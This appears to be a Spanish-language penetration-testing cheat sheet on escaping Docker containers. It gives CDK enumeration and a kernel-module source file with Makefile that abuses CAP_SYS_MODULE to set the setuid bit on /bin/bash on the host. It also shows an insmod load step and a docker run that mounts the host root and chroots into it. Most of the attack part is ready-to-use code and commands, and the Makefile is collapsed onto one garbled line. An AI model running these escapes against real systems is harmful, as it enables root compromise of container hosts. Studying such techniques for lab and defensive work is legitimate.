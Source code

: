 # docker-breakout

# Docker breakout

## Enumeración con CDK

```
root@a2d8c468a7c2:/tmp# ./cdk  eva --full
```

## Abuso de Capabilities

### CAP_SYS_MODULE

Es necesario crear un script en c para compilarlo y ejecutar comandos

- shell.c

```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","chmod u+s /bin/bash", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

- Makefile

```makefile
obj-m +=reverse-shell.oall:    make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modulesclean:    make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

### Explotación

```
root@a2d8c468a7c2:/tmp# insmod reverse-shell.ko
```

## Creación de contenedor con montura desde la raíz

```
spanishdancer@ariekei:/opt/docker$ docker images
spanishdancer@ariekei:/opt/docker$ docker run -it -v /:/host/ waf-template chroot /host/ bash
```